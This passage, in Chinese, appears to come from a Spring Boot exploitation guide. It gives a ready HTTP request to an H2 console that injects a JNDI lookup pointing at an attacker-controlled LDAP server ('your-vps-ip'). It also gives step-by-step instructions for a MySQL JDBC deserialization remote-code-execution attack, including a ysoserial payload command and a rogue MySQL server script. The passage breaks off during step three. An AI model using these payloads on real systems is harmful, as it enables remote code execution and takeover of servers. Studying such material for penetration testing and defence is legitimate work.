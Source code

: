 ```
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```

**漏洞分析：**

​ [Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)

**漏洞环境：**

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/h2-console
```

#### 0x08：mysql jdbc deserialization RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标环境中存在 `mysql-connector-java` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

**步骤一：查看环境依赖**

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java` 关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如 `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value` 值，方便后续恢复其正常 jdbc url 值。

**步骤二：架设恶意 rogue mysql server**

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。

**步骤三：设置 spring.datasource.url 属性**

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！
